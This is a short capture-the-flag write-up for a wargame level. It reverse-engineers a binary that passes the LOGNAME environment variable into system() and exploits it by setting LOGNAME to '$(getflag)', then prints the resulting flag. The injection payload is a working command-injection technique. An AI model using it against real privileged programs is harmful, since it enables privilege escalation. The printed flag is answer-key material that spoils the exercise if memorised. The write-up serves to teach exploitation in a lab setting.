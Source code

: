 # level07

We're presented with an executable. We examine it with `gdb`.

It seems to call the following functions : `getegid`, `geteuid`, `setresgid`, `setresuid`, `getenv`, `asprintf`, and `system`.

This is very similar to level03, but with a slight variations. We run `strings ./level07` and have a look. We see :

```
/bin/echo %s
```

This is `printf` formatting ; judging from gdb, we can assume the program does something like this :

```
char *buf;
asprintf(&buf, "/bin/echo %s", getenv(SOME_ENV_VALUE));
system(buf);
```

`strings ./level07` also reveals the string `LOGNAME`, right above `/bin/echo %s`. We when execute the program right now, it prints `level07`. A quick `env | grep level07` reveals :

```
LOGNAME=level07
```

It checks out ; we can try modifying `LOGNAME` to get what we want. A `system("/bin/echo $(getflag)")` would work. We run :

```
export LOGNAME='$(getflag)'
./level07
```

## The flag

The program is successfully exploited and we get the level's flag :

```
fiumuikeil55xe9cu4dood66h
```